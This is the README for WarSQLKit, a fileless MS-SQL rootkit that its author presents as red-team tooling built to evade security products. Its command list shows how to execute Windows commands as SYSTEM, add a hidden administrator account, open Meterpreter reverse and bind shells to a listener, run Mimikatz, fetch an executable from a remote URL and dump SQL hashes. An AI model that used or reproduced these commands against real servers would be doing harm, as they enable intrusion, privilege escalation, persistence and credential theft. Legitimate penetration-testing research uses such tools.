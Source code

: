 # MSSQL Fileless Rootkit - WarSQLKit

![MSSQL Fileless Rootkit - WarSQLKit](https://eyupcelik.com.tr/wp-content/uploads/2017/09/WarSQLKit.png)

WarSQLKit is a fileless rootkit and attack tool I developed for MS-SQL. With this tool you can rootkit the SQL service that uses CLR on MS-SQL servers. Thus, malicious code can be executed in the process memory of the SQL service without creating a malicious function in the operating system or file system, and security products and technologies can be bypassed. The tool was developed considering a scenario in which an account with "sysadmin" rights is obtained and none of the stored procedures such as "xp_cmdshell", "sp_OACreate", "sp_OAMethod" are running. This tool will show you that MS-SQL is much more than these stored procedures.

I described the tool and the techniques I used to develop it in a red team test for a client in 2016 and decided to share it as open source a year later in 2017. 

WarSQLKit is suitable for refactoring and combining with other tools and techniques. You can find the techniques and methods used in the tool in my blog below.

https://eyupcelik.com.tr/mssql-fileless-rootkit-warsqlkit/

# WarSQLKit Command Example
```sql
EXEC sp_cmdExec 'whoami'; => Any Windows command
EXEC sp_cmdExec 'whoami /RunSystemPriv'; => Any Windows command with NT AUTHORITY\SYSTEM rights
EXEC sp_cmdExec '"net user eyup P@ssw0rd1 /add" /RunSystemPriv'; => Adding users with RottenPotato (Kumpir)
EXEC sp_cmdExec '"net localgroup administrators eyup /add" /RunSystemPriv'; => Adding user to localgroup with RottenPotato (Kumpir)
EXEC sp_cmdExec 'powershell Get-ChildItem /RunSystemPS'; => (Powershell) with RottenPotato (Kumpir)
EXEC sp_cmdExec 'sp_meterpreter_reverse_tcp LHOST LPORT GetSystem'; => x86 Meterpreter Reverse Connection with  NT AUTHORITY\SYSTEM
EXEC sp_cmdExec 'sp_x64_meterpreter_reverse_tcp LHOST LPORT GetSystem'; => x64 Meterpreter Reverse Connection with  NT AUTHORITY\SYSTEM
EXEC sp_cmdExec 'sp_meterpreter_reverse_rc4 LHOST LPORT GetSystem'; => x86 Meterpreter Reverse Connection RC4 with  NT AUTHORITY\SYSTEM, RC4PASSWORD=warsql
EXEC sp_cmdExec 'sp_meterpreter_bind_tcp LPORT GetSystem'; => x86 Meterpreter Bind Connection with  NT AUTHORITY\SYSTEM
EXEC sp_cmdExec 'sp_Mimikatz'; 
select * from WarSQLKitTemp => Get Mimikatz Log. Thnks Benjamin Delpy :)
EXEC sp_cmdExec 'sp_downloadFile http://eyupcelik.com.tr/file.exe C:\ProgramData\file.exe 300';  => Download File
EXEC sp_cmdExec 'sp_getSqlHash';  => Get MSSQL Hash
EXEC sp_cmdExec 'sp_getProduct';  => Get Windows Product
EXEC sp_cmdExec 'sp_getDatabases';  => Get Available Database
```
